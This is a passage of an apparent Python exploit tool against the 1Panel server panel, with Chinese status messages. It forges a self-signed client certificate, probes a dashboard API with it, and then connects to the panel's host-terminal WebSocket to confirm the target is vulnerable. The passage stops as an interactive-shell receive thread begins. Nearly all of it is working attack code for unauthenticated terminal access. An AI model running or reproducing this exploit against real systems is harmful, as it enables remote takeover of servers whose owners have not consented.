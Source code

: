 ```python
        ).not_valid_after(
            datetime.datetime.utcnow() + datetime.timedelta(days=365)
        )
        cert = cert_builder.sign(private_key, hashes.SHA256())
        
        key_file = tempfile.NamedTemporaryFile(delete=False, mode='wb', suffix=".key")
        key_file.write(private_key.private_bytes(
            encoding=serialization.Encoding.PEM, format=serialization.PrivateFormat.PKCS8,
            encryption_algorithm=serialization.NoEncryption(),
        ))
        key_file.close()
        
        cert_file = tempfile.NamedTemporaryFile(delete=False, mode='wb', suffix=".crt")
        cert_file.write(cert.public_bytes(serialization.Encoding.PEM))
        cert_file.close()
        
        with print_lock:
            print(f"[+] 证书已生成: {cert_file.name}, {key_file.name}")
        return cert_file.name, key_file.name
    except Exception as e:
        with print_lock:
            print(f"[ERROR] 生成证书时发生错误: {e}")
        return None, None

def check_target(target_host, cert_path, key_path, proxy_dict, proxy_opts):
    """对单个目标执行完整的两步检测流程。返回 (bool, str)"""
    # 步骤一：HTTP 预检
    check_url = f"https://{target_host}/api/v2/dashboard/base/os"
    headers = {
    'User-Agent': '1panel_client',
    'Origin':f"https://{target_host}/",
    'Content-Type': 'application/ison'
    }
    try:
        response = requests.get(
            check_url, cert=(cert_path, key_path), proxies=proxy_dict, verify=False, timeout=10, headers=headers
        )
        if response.status_code != 200:
            return False, f"预检失败 (HTTP {response.status_code})"
        with print_lock:
            print(f"[*] {target_host:<21} - HTTP 预检成功 (200 OK)")
    except requests.exceptions.RequestException as e:
        return False, f"预检请求失败 ({type(e).__name__})"

    # 步骤二：WebSocket 连接尝试
    ws_url = f"wss://{target_host}/api/v2/hosts/terminal"
    try:
        ssl_context = ssl.SSLContext(ssl.PROTOCOL_TLS_CLIENT)
        ssl_context.load_cert_chain(cert_path, key_path)
        ssl_context.check_hostname = False
        ssl_context.verify_mode = ssl.CERT_NONE
        ws = websocket.create_connection(ws_url, sslopt={"context": ssl_context}, timeout=10, **proxy_opts)
        ws.close()
        return True, "存在漏洞 (HTTP预检和WSS连接均成功)"
    except Exception as e:
        return False, f"WSS连接失败 ({type(e).__name__})"

def receive_thread(ws):
    """交互式Shell的接收线程。"""
    global exploit_running
    while exploit_running:
```